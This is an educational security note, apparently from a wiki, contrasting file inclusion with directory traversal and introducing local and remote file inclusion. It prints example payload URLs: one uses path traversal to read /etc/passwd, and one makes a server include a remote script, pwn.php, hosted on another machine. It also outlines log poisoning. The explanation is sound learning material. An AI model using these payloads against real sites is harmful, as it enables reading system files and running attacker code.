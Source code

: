 # File Inclusion vs Directory Traversal

File inclusion vulnerabilities arise when file paths are passed to `include` statements without sanitisation.

It is important to distinguish between file inclusion and [directory traversal](Directory%20Traversal.md) vulnerabilities, as these often get mixed up. A path traversal grants an adversary *direct* access to arbitrary files - the file is simply treated as if it were in the web root directory, even though it might be outside it.

In contrast, file inclusion allows for the "inclusion" of files in the application's running code. This can manifest in different ways. If the file included is a `.php` script, then a simple file inclusion will *execute* the PHP code inside it. If the file is not a PHP file, then its contents will be included somewhere on the page.

## Local File Inclusion (LFI)

A *local file inclusion (LFI)* vulnerability allows for the inclusion of local files, i.e. files which are located on the server itself. Such vulnerabilities can often lead to remote code execution if an adversary can upload to the server a file of their choosing. Another common venue of exploitation is log poisoning, whereby the adversary performs some actions in order to generate certain content in log files and then uses the LFI to execute the log file itself.

The most common place where LFIs occur is in URL file parameters. Consider the following example URL:

```
http://example.com/preview.php?file=index.html
```

If this is vulnerable to LFI, then an adversary can change the `file` parameter in order to include in the web page any file they like. For example, visiting

```
http://example.com/preview.php?file=../../../../../../../etc/passwd`
```

will result in the contents of `/etc/passwd` being displayed somewhere on the `preview.php` web page. 

>[!EXAMPLE]- Example: Directory Traversal vs LFI
>
>If this were a path traversal instead (for example `http://example.com/../../../etc/passwd`), then the above would result in the direct *download* of the file `/etc/passwd` instead of its contents being included somewhere on the resulting web page.
>

## Remote File Inclusion (RFI)

A *remote file inclusion (RFI)* vulnerability allows us to include a file located on a remote host which is accessible via HTTP or SMB. They can be discovered by the same techniques used to find LFIs and path traversals, but instead of using a filename directly, one inserts an entire URL:

```
http://example.com/preview.php?file=http://192.168.0.23/pwn.php
```
